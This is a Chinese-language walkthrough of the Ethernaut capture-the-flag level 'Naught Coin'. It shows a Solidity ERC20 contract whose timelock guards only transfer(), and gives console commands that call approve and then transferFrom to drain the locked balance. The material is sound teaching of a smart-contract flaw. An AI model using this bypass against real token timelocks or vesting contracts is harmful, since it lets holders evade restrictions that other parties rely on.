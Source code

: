 ### 第十五关 Naught Coin
### 难度3/5
## 这一关的通关条件是将代币余额变为0。
## 代码如下：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
        super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
}
```
仔细观察，合约中的transfer函数增加了modifier用来锁定代币十年，并且合约override了transfer函数。但是对于ERC20代币，还可以使用transferFrom函数用来转移代币。transferFrom是ERC20标准中定义的一个函数，允许一个地址（通常是授权的spender）从另一个地址（owner）转移一定数量的代币到目标地址。所以我们先approve一下，然后再将代币发送到目标地址。
## 解题步骤：
1. 打开console，输入：
```Javascript
contract.approve(player,toWei("1000000"));
```
2. 调用transferFrom
```Javascript
contract.transferFrom(player,leveladdress,toWei("1000000"));
```
3. 提交过关
